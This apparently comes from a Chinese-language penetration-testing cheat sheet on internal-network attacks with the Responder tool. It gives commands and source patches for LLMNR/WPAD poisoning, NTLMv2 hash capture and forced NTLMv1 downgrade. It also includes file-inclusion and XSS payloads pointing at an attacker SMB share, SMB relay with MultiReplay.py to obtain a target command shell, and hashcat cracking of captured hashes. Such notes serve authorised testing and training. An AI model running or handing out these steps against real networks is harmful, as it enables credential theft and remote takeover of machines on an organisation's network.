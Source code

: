 ### Responder/LLMNR毒害
  #### SMB协议截获
	内网中间人攻击脚本，kali内置
	监听网络接口
	>responder -I wlan0(eth0)
	指定某台机器或网段：修改/etc/responder/Responder.py中RespondTo参数。
	网段中有认证行为会捕获NTLMv2 hash
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/429.png)

	当访问一个不存在的共享时修改配置文件来解析
	Xp
	修改/usr/share/responder/servers/SMB.py定位到errorcode修改为\x71\x00\x00\xc0，删除掉/usr/share/responder/Responder.db
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/430.png)

	XP时使用\\cmd\share形式访问共享输入密码达4次会断开连接。
	定位到
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/431.png)

	修改self.ntry != 10
	Win7以上
	修改/usr/share/responder/servers/SMB.py定位到##Session Setup 3
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/432.png)

	删除掉and GrabMessageID(data)[0:1] == "\x02"，删除掉/usr/share/responder/Responder.db
	修改后可以进行解析，捕获hash，否则会报错误64
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/433.png)

	强制截取NTLMv1 hash，修改/usr/share/responder/packets.py，定位到以下参数，修改为\x15\x82\x81\xe2，修改Conf文件设置Challenge为16位固定值。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/434.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/435.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/436.png)
  #### WPAD代理欺骗
	>responder -I eth0 -v -F 
	F参数即可开启强制WPAD认证服务抓取 hash，访问IE或重启电脑即可发送欺骗认证获得hash。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/437.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/438.png)

	重启也可以抓到
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/439.png)
  #### Web漏洞
	内网中使用文件包含漏洞和XSS
	>Responder -I eth0 -v
	http://10.1.1.1/file.php?file=\\10.1.1.12\share
	http://10.1.1.1/xss.php?article=<img src=\\10.1.1.12\xx>
  #### SMB中继攻击
	修改/etc/responder/Responder.conf文件，配置smb和http为Off，分别开启两个对话框，使用F参数启用WPAD欺骗浏览器，使用/usr/share/responder/tools中的MultiReplay.py进行中继攻击获得目标cmdshell。
	>Responder -I eth0 -v -F
	>python MultiReplay.py -t 192.168.0.115 -u ALL
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/440.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/441.png)
  #### NTLMv2Hash破解
	使用hashcat破解 -m 5600为NTLMv2类型
	>hashcat -m 5600 pass.txt wordlists.txt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/442.png)
